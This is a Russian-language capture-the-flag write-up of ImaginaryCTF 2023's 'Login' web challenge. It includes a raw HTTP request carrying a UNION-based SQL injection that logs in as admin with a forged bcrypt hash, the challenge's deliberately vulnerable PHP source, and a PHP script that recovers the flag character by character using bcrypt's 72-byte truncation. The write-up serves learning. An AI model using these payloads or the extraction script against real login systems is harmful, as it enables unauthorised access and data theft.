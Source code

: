 ## ImaginaryCTF 2023 | Web | Login

1. сунул кавычку в поле ввода и получил ошибку
2. sqlmapом дампнул бд. там одна таблица `users` с двумя записями `admin` и `guest` и хэшами в формате `password_hash()`
3. сгенерил хэш из `123` и используя `sqli` вошел в систему под `admin`

```
POST / HTTP/1.1
Host: login.chal.imaginaryctf.org
Content-Type: application/x-www-form-urlencoded
Content-Length: 109
Connection: close
                             
username='+UNION+SELECT+'admin','$2y$10$y8lGakdsoJPKhHZDNCwYfOyG.2fdIjBO2sPMRpUWjNVMjwguhPqCi'--&password=123
```

получил такой ответ

```
...
Welcome admin! But there is no flag here :P<!-- magic: 688a35c685a7a654abc80f8e123ad9f0 --> 
...
```

я долго проебался пока мне не подсказали перейти на `/?source` 🗿

<details>
  <summary>сорцы</summary>

  ```php
<?php

if (isset($_GET['source'])) {
    highlight_file(__FILE__);
    die();
}

$flag = $_ENV['FLAG'] ?? 'jctf{test_flag}';
$magic = $_ENV['MAGIC'] ?? 'aabbccdd11223344';
$db = new SQLite3('/db.sqlite3');

$username = $_POST['username'] ?? '';
$password = $_POST['password'] ?? '';
$msg = '';

if (isset($_GET[$magic])) {
    $password .= $flag;
}

if ($username && $password) {
    $res = $db->querySingle("SELECT username, pwhash FROM users WHERE username = '$username'", true);
    if (!$res) {
        $msg = "Invalid username or password";
    } else if (password_verify($password, $res['pwhash'])) {
        $u = htmlentities($res['username']);
        $msg = "Welcome $u! But there is no flag here :P";
        if ($res['username'] === 'admin') {
            $msg .= "<!-- magic: $magic -->";
        }
    } else {
        $msg = "Invalid username or password";
    }
}
?>
<!DOCTYPE html>
<html lang="en">

<head>
    <meta charset="UTF-8" />
    <meta http-equiv="X-UA-Compatible" content="IE=edge" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <title>Login</title>
    <link type="text/css" rel="stylesheet" href="https://cdn.simplecss.org/simple.css" />
</head>

<body>
    <main>
        <h2>Login</h2>
        <form method="POST">
            <p>
                <label for="username">Username</label>
                <input type="text" name="username" placeholder="Username" />
            </p>
            <p>
                <label for="password">Password</label>
                <input type="password" name="password" placeholder="Password" />
            </p>
            <p>
                <button type="submit">Login</button>
            </p>
        </form>
        <p>
            <?= $msg ?>
        </p>
    </main>
</body>

</html>
<!-- /?source -->
```
</details>


с сорцами все встало на свои места. получается, если гет параметр имеет значение `magic`, тогда `flag` конкатенируется с `password`. Хм 🤔.
Единственное место, где `password` еще используется, это функция `password_verify()`. я зашел в [доку пыхи](https://www.php.net/manual/ru/function.password-hash.php) и обнаружил странную хрень

> **Предостережение** Использование алгоритма **PASSWORD_BCRYPT** приведёт к обрезанию поля password до максимальной длины 72 байта.

теперь вектор понятен. поскольку мы знаем об ограничении длины, мы можем хэшировать паддинг, оставляя место для флага, и угадывать посимвольно. Я написал простой скрипт на пыхе, который достал мне флаг:

```php
<?php

$charlist = ['a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o', 'p', 'q', 'r', 's', 't', 'u', 'v', 'w', 'x', 'y', 'z', '_', '!', '?', '{', '}'];

$url = 'http://login.chal.imaginaryctf.org/?688a35c685a7a654abc80f8e123ad9f0';

$flag = 'ictf{';
echo "\n\n\n";
while ($flag[strlen($flag) - 1] != '}') {
  $padding = str_repeat("%", 71 - strlen($flag));
  for($i = 0; $i < count($charlist); ++$i) {
          $pass = "$padding$flag$charlist[$i]";
          $hash = password_hash($pass, PASSWORD_BCRYPT);
  
          $result = file_get_contents($url, false, stream_context_create([
            'http' => [
                'method' => 'POST',
                'header'  => "Content-type: application/x-www-form-urlencoded",
                'content' => "username='+UNION+SELECT+'admin','$hash'--&password=$padding",
            ]
          ]));

          if (str_contains($result, 'magic: 688a35c685a7a654abc80f8e123ad9f0')) {
            $flag .= $charlist[$i];
            echo $flag . "\r"; 
            break;
          }
  }
}

?>
```


https://github.com/kar9eo/wr/assets/138859197/74798039-8ce0-41b0-bb19-c616e756f031

